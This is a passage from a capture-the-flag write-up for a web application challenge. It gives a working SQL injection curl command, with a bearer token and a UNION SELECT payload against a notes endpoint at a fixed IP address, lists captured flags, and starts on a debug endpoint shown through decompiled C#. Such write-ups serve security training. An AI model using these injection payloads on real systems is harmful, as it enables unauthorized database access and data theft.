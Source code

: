 ```c#
```

### Flag

`OMEGAPOINT{1da92dcfcbe4122b3e99cc25dc6d71d8}`

## [6] Dumping the Barrel

### Description

As you explore the web application, you may find a way to access notes. However, even with admin privileges, accessing the note comments seems to not be possible.

### Solve
From the challenge [[4] Admin rights for everybody!](#4-admin-rights-for-everybody), one can easily dump the whole database and from there find the flag located as a comment on a note. Alternatively, the decompiled sourec code from the DLL file revealed a filter parameter on the notes-endpoint, which were vulnerable to SQL injection as well. An example of a payload retrieving comments from the notes in the database as well as the flag can be seen below: 

```sh
curl -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywidXNlcm5hbWUiOiJhZG1pbiIsImlzQWRtaW4iOjEsImlhdCI6MTcwMTE3MzQ4NiwiZXhwIjoxNzMyNzA5NDg2fQ.TFzllamMp0d7Rv9eIdRvvJHWr8-dk0h2iZSY1Z6nV5c' 'http://51.120.250.68/api/notes?token=OMEGAPOINT%7B7c0e12caf742bf36e604250fa8cc70fd%7D&filter=1=0%20UNION%20SELECT%201,2,comment%20FROM%20notes'
```

![sql injection on the notes endpoint containing the flag](image-4.png)

### Flag

`OMEGAPOINT{d4fba280dd6162ca55bdcb26feb12f05}`

## [7] That's right, you can read!

### Description

Certain debugging endpoints of the server have been exposed through the library. Can you exploit them to your advantage?

### Solve
Through the decompiled source code, we can also see a debug endpoint at `/api/debug/date?format=`:

```c#
[AsyncStateMachine(typeof(<DebugDate>d__7))]
public async System.Threading.Tasks.Task<string> DebugDate()
{
    //IL_0002: Unknown result type (might be due to invalid IL or missing references)
    //IL_0007: Unknown result type (might be due to invalid IL or missing references)
    HttpRequestMessage val = new HttpRequestMessage(HttpMethod.Get, "/api/debug/date?format=%2B%25A%2C%20%25d.%25b%20%25Y%20-%20%25H%3A%25M%3A%25S");
    ((HttpHeaders)val.Headers).Add("Authorization", "Bearer " + stateService.Token);
    HttpResponseMessage val2 = (await httpClient.SendAsync(val)) ?? throw new System.Exception();
    if (val2.IsSuccessStatusCode)
    {
```